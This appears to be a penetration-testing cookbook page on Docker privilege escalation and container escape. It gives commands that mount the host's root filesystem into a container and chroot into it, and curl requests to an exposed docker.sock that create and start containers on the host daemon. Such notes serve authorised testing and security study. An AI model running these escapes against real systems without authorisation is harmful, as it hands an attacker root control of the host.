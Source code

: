 ```yaml
---
layout: default
title: Docker
parent: COOKBOOKS
has_children: false
has_toc: false
---
```


{% include toc.html %}

## References

[PrivEsc with docker](https://medium.com/@Affix/privilege-escallation-with-docker-56dc682a6e17)

[Docker socket](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd)

[GTFOBins docker page](https://gtfobins.github.io/gtfobins/docker/)

[Docker run command](https://docs.docker.com/engine/reference/commandline/container_run/)

[Docker api reference](https://docs.docker.com/engine/api/v1.40/#)

## Docker run
See the [docker run cli reference](https://docs.docker.com/engine/reference/commandline/container_run/) for more details and a full list of options.

|Command|Description|
|:---|:---|
|`--rm`|Automatically remove the container when finished.|
|`--interactive`, `-i`|Start the container in interactive mode so you can use it.|
|`--tty`, `-t`|Start a `tty` so you can interactive with the container.|
|`--volume`, `-v`|Mount a volume at the specified location.|
|`--volume /:/mnt`|Mount the root of the host to `/mnt` within the container.|
|`--volume /root:/mnt`|Mount root's home folder of the host to `/mnt/` within the container.|

## Docker Escapes using docker run
You'll need a `docker` binary in the container in order to use `docker run`. If you have a shell on the host system you can check if the host and the container are on the same network. If they are, you may be able to `wget` the docker binary from the host to the container.

```
// Download the 'hello-world' container from the docker repo and run it.
docker run hello-world

// Run the 'ubuntu' container in interactive mode with a tty and execute the command /bin/bash to return a shell and automatically clean up once complete.
docker run --rm --interactive --tty ubuntu /bin/bash

// Shorthand version of the same command.
docker run --rm -it ubuntu /bin/bash

// Mount the entire / volume of the host machine to /mnt within the container 'ubuntu' and performs a 'chroot' on /mnt inside the container.
docker run --rm --volume /:/mnt -it ubuntu chroot /mnt

// Mount the /root directory of the host machine to /mnt within the container.
docker run --rm --volume /root:/mnt -it ubuntu
```

## Docker socket
If there is a `docker.sock` socket in `/var/run/` of the container, you can communicate with the docker daemon on the host (see [this article](https://medium.com/better-programming/about-var-run-docker-sock-3bfd276e12fd) for more details). Most of the docker endpoints are mapped to commands, for example `GET http://localhost/containers/json` maps to `docker ps`. See the right-hand side of the [docker specification](https://docs.docker.com/engine/api/v1.40/#) page for details of the endpoints. For example:

```
// Request the summary image data..
curl -s --unix-socket /var/run/docker.sock http://localhost/images/json
```

`POST` can be used to do things like create and run containers, for example:

```
// Create a container via the docker.sock socket.
curl -X POST --unix-socket /var/run/docker.sock -d '{"Image":"nginx"}' -H 'Content-Type: application/json' http://localhost/containers/create

{"Id":"age65...g45","Warnings":null}

// Start the container.
curl -X POST --unix-socket /var/run/docker.sock http://localhost/containers/age65...g45/start
```